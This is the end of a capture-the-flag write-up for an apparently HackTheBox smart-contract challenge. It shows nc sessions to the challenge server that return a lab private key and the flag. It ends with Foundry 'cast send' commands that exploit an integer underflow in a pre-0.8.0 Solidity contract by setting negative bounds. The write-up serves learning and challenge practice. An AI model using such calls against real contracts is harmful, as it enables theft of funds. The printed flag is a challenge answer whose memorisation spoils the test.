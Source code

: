 Now let's try to get the flag from the other port:

```
$ nc 83.136.249.153 41926
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xbcbd57858f1e0604060bc2e6e4075589c95cbfdf3c8f05dac5963ff129393f37
Address         :  0x2e0C1FD6033b0D3d6ef69c3F1776c51bcD0d9715
Target contract :  0xC6F79C7Daf5943FC196C7d41f1A8F6802Db93D49
Setup contract  :  0x4e1CA36DbC9a3a5C46B32D664111CB87253b6582

$ nc 83.136.249.153 41926
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{1_f0rg0r_s0m3_U}
```

Flag: `HTB{1_f0rg0r_s0m3_U}`

Some additional notes:
- I've leant that for these kind of challenges it is much easire to use [`Foundry`](https://book.getfoundry.sh/).
```bash
$ cast send --rpc-url $RPC_URL --private-key $PVK $TARGET "setBounds(int64,int64)" -- -2 -1
$ cast send $TARGET "sendRandomETH()" --rpc-url $RPC_URL --private-key $PVK
```
- Solidity versions before 0.8.0 lack native integer overflow checks, leading to an integer underflow when negative bounds are set.